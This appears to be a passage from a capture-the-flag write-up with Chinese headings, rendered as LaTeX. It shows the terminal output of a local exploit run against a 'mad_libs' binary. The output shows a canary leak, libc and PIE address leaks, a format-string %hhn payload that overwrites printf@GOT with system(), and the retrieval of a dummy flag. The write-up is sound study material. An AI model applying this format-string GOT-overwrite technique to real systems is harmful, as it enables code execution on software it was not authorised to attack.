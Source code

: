 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\NormalTok}[1]{#1}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\paragraph{本機（先自己造一個假
flag）}\label{ux672cux6a5fux5148ux81eaux5df1ux9020ux4e00ux500bux5047-flag}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ echo \textquotesingle{}sun\{LOCAL\_DUMMY\_FLAG\}\textquotesingle{} \textgreater{} flag.txt}
\NormalTok{$ python3 exploit.py \textless{} /dev/null}
\NormalTok{[*] starting local process with the bundled loader/libc}
\NormalTok{[+] Starting local process \textquotesingle{}./ld{-}linux{-}x86{-}64.so.2\textquotesingle{}: pid 3499910}
\NormalTok{[*] leak line: 0x...|0x7ffd267ccef0|0x7f9949a2a1ca|0x7f9949d1a1c9}
\NormalTok{[+] canary      = 0x...}
\NormalTok{[+] saved rbp   = 0x7ffd267ccef0}
\NormalTok{[+] libc leak   = 0x7f9949a2a1ca  {-}\textgreater{} libc base = 0x7f9949a00000}
\NormalTok{[+] main leak   = 0x7f9949d1a1c9  {-}\textgreater{} PIE  base = 0x7f9949d19000}
\NormalTok{[+] system      = 0x7f9949a58740}
\NormalTok{[+] printf@GOT  = 0x7f9949d1d010}
\NormalTok{[*] write payload (112 bytes): b\textquotesingle{}\%64c\%16$hhn\%9c\%17$hhn\%54c\%18$hhn\%8c\%19$hhn\%18c\%20$hhn\%12c\%21$hhn...\textquotesingle{}   ← 這次 6 個 \%hhn}
\NormalTok{[*] printf@GOT should now contain system()}
\NormalTok{[*] Stopped process}
\NormalTok{sun\{LOCAL\_DUMMY\_FLAG\}}
\NormalTok{total 2348}
\NormalTok{drwxr{-}xr{-}x  2 kzzz kzzz    4096 Sep 28 00:24 .}
\NormalTok{{-}rw{-}r{-}{-}r{-}{-}  1 kzzz kzzz      22 Sep 28 00:15 flag.txt}
\NormalTok{{-}rwxr{-}xr{-}x  1 kzzz kzzz  236616 Sep 28 00:09 ld{-}linux{-}x86{-}64.so.2}
\NormalTok{{-}rwxr{-}xr{-}x  1 kzzz kzzz 2125328 Sep 28 00:09 libc.so.6}
\NormalTok{{-}rwxr{-}xr{-}x  1 kzzz kzzz   14584 Sep 28 00:09 mad\_libs}
\NormalTok{uid=1001(kzzz) gid=1001(kzzz) groups=1001(kzzz),65534(nobody)}
\NormalTok{DONE}

\NormalTok{FLAG: sun\{LOCAL\_DUMMY\_FLAG\}}
\end{Highlighting}
\end{Shaded}

\paragraph{遠端（真 flag）}\label{ux9060ux7aefux771f-flag}
\end{document}
